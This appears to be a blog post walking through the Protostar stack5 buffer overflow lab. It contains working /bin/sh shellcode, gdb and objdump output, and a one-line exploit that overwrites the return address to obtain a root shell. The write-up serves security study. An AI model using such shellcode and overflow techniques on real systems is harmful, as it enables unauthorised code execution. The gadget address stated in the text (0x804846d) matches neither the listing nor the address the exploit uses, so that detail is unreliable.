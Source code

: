 ```yaml
---
layout: post
title: "Protostar stack04 writeup"
tags: [protostar, pwn]
comments: false
---
```


This challenge gives out a source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Unlike from the other challenges, this one doesn't contain any functions like the win() function.
In the challenge description it says to use shellcode.

my shellcode where it executes /bin/sh will be
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```
which is 25 bytes

When I was going through the binary I realized that the register eax contains the start of the buf[64] address

```
(gdb) b *main+21
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAA

Breakpoint 1, main (argc=1, argv=0xbffffd54) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/10x $esp
0xbffffc50:     0xbffffc60      0xb7ec6165      0xbffffc68      0xb7eada75
0xbffffc60:     0x41414141      0x08049500      0xbffffc78      0x080482c4
0xbffffc70:     0xb7ff1040      0x0804958c
(gdb) info reg
eax            0xbffffc60       -1073742752
```

So if I start the buf[64] by putting in the shellcode then put in some dummy values to reach ret and then overwrite it with an address that calls eax(which will be call eax) then it will run the shellcode.

to find an instruction of call eax
```
root@protostar:/opt/protostar/bin# objdump -d stack5 -M intel | grep call
 804829f:       e8 00 00 00 00          call   80482a4 <_init+0xc>
 80482b5:       e8 1e 00 00 00          call   80482d8 <__gmon_start__@plt>
 80482ba:       e8 e1 00 00 00          call   80483a0 <frame_dummy>
 80482bf:       e8 8c 01 00 00          call   8048450 <__do_global_ctors_aux>
 804832c:       e8 c7 ff ff ff          call   80482f8 <__libc_start_main@plt>
 8048378:       ff 14 85 ac 94 04 08    call   DWORD PTR [eax*4+0x80494ac]
 80483bf:       ff d0                   call   eax
 80483d4:       e8 0f ff ff ff          call   80482e8 <gets@plt>
 80483f6:       e8 4f 00 00 00          call   804844a <__i686.get_pc_thunk.bx>
 8048404:       e8 8f fe ff ff          call   8048298 <_init>
 8048434:       ff 94 b3 18 ff ff ff    call   DWORD PTR [ebx+esi*4-0xe8]
 804846b:       ff d0                   call   eax
 8048483:       e8 00 00 00 00          call   8048488 <_fini+0xc>
 804848f:       e8 ac fe ff ff          call   8048340 <__do_global_dtors_aux>
```

You can see that call eax is located at 0x804846d

So if we make a exploit it will be

```
root@protostar:/opt/protostar/bin# (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*51+"\xbf\x83\x04\x08"';cat) | ./stack5
whoami
root
```

even though I am already on root, it's fine because we can still see that the shellcode worked.

